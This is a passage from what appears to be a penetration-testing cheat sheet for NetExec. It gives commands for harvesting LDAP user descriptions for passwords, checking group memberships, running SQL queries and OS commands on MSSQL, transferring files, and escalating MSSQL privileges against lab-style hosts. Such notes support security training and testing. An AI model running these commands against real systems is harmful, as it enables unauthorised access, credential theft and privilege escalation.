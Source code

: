 # View options
<strong>nxc ldap -M user-desc --options 
</strong><strong>
</strong><strong># Get user descriptions
</strong>nxc ldap dc01.zencorp.local -u john -p pass123 -M user-desc
nxc ldap dc01.zencorp.local -u john -p pass123 -M user-desc -o KEYWORDS=pwd,admin

# Check group memberships
nxc ldap dc01.zencorp.local -u john -p pass123 -M groupmembership -o USER=joe
</code></pre>

### <mark style="color:yellow;">MSSQL</mark>

<pre class="language-powershell"><code class="lang-powershell"># Run SQL query
mssql 10.129.203.111 -u john -p pass123 -q "SELECT name FROM master.dbo.sysdatabases"

<strong># Run SQL query as MSSQL user
</strong>mssql 10.129.203.111 -u john -p pass123 --local-auth -q "SELECT name FROM master.dbo.sysdatabases"

# Login as DBA
mssql 10.129.203.111 -u john -p pass123 --local-auth

# Run commands
mssql 10.129.203.111 -u john -p pass123 --local-auth -x whoami

# Upload file
mssql 10.129.203.111 -u john -p pass123 --local-auth --put-file /etc/passwd C:/Users/Public/passwd

# Download file
mssql 10.129.203.111 -u john -p pass123 --local-auth --get-file C:/Windows/System32/drivers/etc/hosts hosts
</code></pre>

MSSQL privilege escalation

```powershell
# Show module options
mssql -M mssql_priv --options

# PrivEsc
mssql 10.129.203.111 -u john -p pass123 -M mssql_priv
mssql 10.129.203.111 -u john -p pass123 -M mssql_priv -o ACTION=privesc
```

### <mark style="color:yellow;">Find Kerberoastable accounts</mark>
